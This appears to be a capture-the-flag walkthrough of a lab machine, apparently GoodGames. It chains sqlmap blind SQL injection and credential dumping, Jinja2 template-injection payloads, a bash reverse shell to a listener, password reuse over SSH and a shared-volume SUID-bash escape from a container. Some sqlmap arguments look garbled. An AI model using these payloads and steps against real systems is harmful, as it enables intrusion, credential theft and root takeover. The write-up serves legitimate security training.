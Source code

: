 ### Task 1

Submit User Flag

We use nmap to find the services on the target machine and we see that an apache server runs on port 80.

``nmap -sV target_ip``

![alt text](image-g.png)

Navigating to the browser we see a login page where we will try bypassing the authentication using SQL injection.

Server-Side Template Injection (SSTI) vulnerability arises when an application incorporates user-supplied input directly into its server-side templates without proper sanitization or validation. Template engines, which combine templates with dynamic data to generate web pages, can be exploited through SSTI attacks.


To find forms that are candidates for sql injection run

``sqlmap -u "http://10.129.51.14/" --forms --crawl=2 --dbms=mysql``

--crawl=CRAWLDEPTH: crawls the website starting from the target url

We find a total of 8 targets. One of the identified forms is the login form and sqlmap auto-filled blank fields, tried multiple techniques and identified that the email field is vulnerable to time-based blind SQL injection.

![alt text](image-g-3.png)

![alt text](image-g-5.png)

After confirming the vulnerability we want to enumerate the database and find the table storing the usernames and passwords to get the user flag.

We can try running the following command to retrieve the databse names.

``sqlmap -u "http://10.129.51.14/login" --data="email=*&password=test123" --dbs``

We found 2 available databases named information_schema and main.

Next, we will list the tables from each.

``sqlmap -u "http://10.129.51.14/login" --data="email=*&password=test123/login" -D <database_name> --tables``

Starting with the database named main, we find 3 tables blog, blog_comments and user and which we can further investigate.
We start with the table user.

``sqlmap -u "http://10.129.51.14/login" --data="email=*&password=test123/login" -D main -T user --columns``

There, we find 4 columns in total with a column named email and a column name password that might get us the flags we need.

![alt text](image-g-9.png)

We then run the following command to retreive that information.

``sqlmap -u "http://10.129.51.14/login" --data="email=*&password=test123/login" -D main -T user -C email,password --dump``

We find the email and the password and with those credentials we login after we use a hash cracker to find the plain texts password from the hashed one.

Now that we are logged in as admin, we can see a gear on the top right that redirects as to internal-administration.goodgames.htb. We need to edit the /etc/hosts file to point this domain to the target machine's IP.
Note, editing the hosts file requires administrative privileges.

Following the url, we see a login page:
![alt text](image-g-10.png)

There we reuse the credentials that we found on the previous step, where admin is the username. 
We are presented with a dashborad for the admin.

![alt text](image-g-11.png)

After we are in we attempt to find a palce where sql injection is possible. Navigating to the settings page,
we see the general information where we can try sql injection on the field of the full name.
We try the usual test of ' OR 1=1 --- and we see this renders as the full name. We then try {{1+1}} for Jinja2 (Python) and we see this results to two, 
so we confirm SSTI (Server Side Template Injection) which can lead to an RCE.
Now we can go on with jinja2 exploitation. 

First we open a port locally:

``nc -lvnp 4343``

Different ways using some python libraries to exploit including:

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
```

Or in the shotest versions:
```
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

We used 
``{{ cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/<local_ip>/<exposed_port> 0>&1"').read() }}``

We now got the root control of the server

![alt text](image-g-13.png)

We can then navigate to /home/augustus where we find the user.text, in which the user flag is user flag is located.

### Task 2

But since we are already a root user but not finding any root.txt under the /root directory, we might be inside a container.

We can invistigate the cgroup file under the proc folder that contains all processes.

![alt text](image-g-15.png)

From this file, we understand that we are inside a docker container. So, we need to access the host from the container which is known as container escape or breakout.

One way of container gaining access to host file systems, is if they areconfigured to run with the SYS_ADMIN capability which allows
containers to perform actions through the linux kernel that would be available only to root users on a linux server.

capa=`cat /proc/1/status | grep -i 'CapEff' | awk '{print $2}'`; capsh --decode=$capa


grep CapEff /proc/$$/status

CapEff this set represents all the capabilities the process is using at a specific moment in time. 
Then we need to decode the permitted capcbility using capsh.

``capsh -- decode=xxxxxx00000000a80425fb``

![alt text](image-g-16.png)

After decoding, we see that the cap_sys_admin capability is not there, so we cannot use this to escape the container.

We then can try ssh to the host machine using the username augustus and the password we had before found for the admin
``ssh augustus@172.19.0.1``

And it works! 

Since the container mounts /home/augustus from the host anything the container writes in this directory, is also visible on the host and vice versa.

Having said that we can follow the next steps to create a SUID-root bash binary on the host via a shared volume.
While in the host we copy the /bin/bash to the current dirrectory ``cp /bin/bash .``.
Then inside the container we can:

```
chown root:root /home/augustus/bash
chmod 4777 /home/augustus/bash
```

Now going back to host, we run ``./bash -p`` to get a root shell and finally get the root flag.

![alt text](image-g-18.png)

What is blind SQL injection?


Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
Many techniques as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the inkected query within the application's responses.


